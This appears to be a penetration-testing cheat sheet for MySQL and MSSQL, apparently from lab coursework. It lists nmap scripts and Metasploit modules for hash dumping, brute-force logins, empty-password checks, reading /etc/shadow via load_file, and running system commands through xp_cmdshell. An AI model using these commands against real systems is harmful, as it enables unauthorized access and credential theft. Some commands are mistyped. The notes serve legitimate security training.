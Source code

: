 ## MySQL

3306 common port for #mysql

## nmap
shows accounts with empty passwords
`nmap --script=mysql-empty-password -p 3306 $IP`

show db info with #nmap
`nmap <ip address> --script=mysql-info'

find other users
`script=mysql-users --script-args-"mysqluser='<username>', mysqlpass=''<password>'"`

find db's
`script=mysql-databases --script-args-"mysqluser='<username>', mysqlpass=''<password>'"`

get hashes
`nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 <ip address>`

get variables
`nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.71.145.3`

audit
`nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/n selib/data/mysql-cis.audit'" -p 3306 192.71.145.3`

## mysql
log in
```bash
mysql -h $IP -u $USER
```

some other commands
`show databases;
`use <database>;
`show tables;`
`select * from  table;'

to get file 
`select load_file("/etc/shadow")`

`exit` to quit

## metasploit
#metasploit #mysql 

get schema
`use auxiliary/scanner/mysql/mysql_schemadump 
`set RHOSTS 192.71.145.
`set USERNAME root
`set PASSWORD "" 
`exploit`

see writable dirs
`use auxiliary/scanner/mysql/mysql_writable_dirs 
`set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt 
`set RHOSTS 192.71.145.3 
`set VERBOSE false 
`set PASSWORD "" 
`exploit`

find sensitive files
`use auxiliary/scanner/mysql/mysql_file_enum 
`set RHOSTS 192.71.145.3 
`set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt 
`set PASSWORD "" 
`exploit`

hashdump
`use auxiliary/scanner/mysql/mysql_hashdump 
`set RHOSTS 192.71.145.3 
`set USERNAME root 
`set PASSWORD "" exploit`

brute force login
`use auxiliary/musql/mysql_login`

sql enum
`use auxiliary/scanner/mysql/mysql_file_enum
`set RHOSTS 192.49.51.3
`set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
`set PASSWORD ""
`exploit`

> note tools under admin need elevated or root privs to run

execute sql commands
`use auxiliary/admin/mysql/mysql_sql`


## MSSQL 
get info on ms sql server
`nmap --script ms-sql-info -p 1433 <ip address>`

detail info on server - NetBIOS, DNS, and OS build version
`nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <ip address`

#nmap script to brute force logins
`nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-p asswords.txt <ip address>`

try to find users with no passwords
`nmap -p 1433 --script ms-sql-empty-password <ip address`

hashes of users
`nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria <ip address>`

run cmd commands, below for ip info
`nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" <ip address>`

### metaspolit

Identifying valid MSSQL users and their passwords
`use auxiliary/scanner/mssql/mssql_login 
`set RHOSTS 10.0.20.101 
`set USER_FILE /root/Desktop/wordlist/common_users.txt 
`set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt'

enumerate
`use auxiliary/admin/mssql/mssql_enum 
`set RHOSTS <ip address> 
`exploit`

Use cmd commands
`use auxiliary/admin/mssql/mssql_exec 
`set RHOSTS 10.0.20.101 
`set CMD whoami 
`exploit`

enum domain accounts
`use auxiliary/admin/mssql/mssql_enum_domain_accounts 
`set RHOSTS 10.0.20.101 
`exploit`

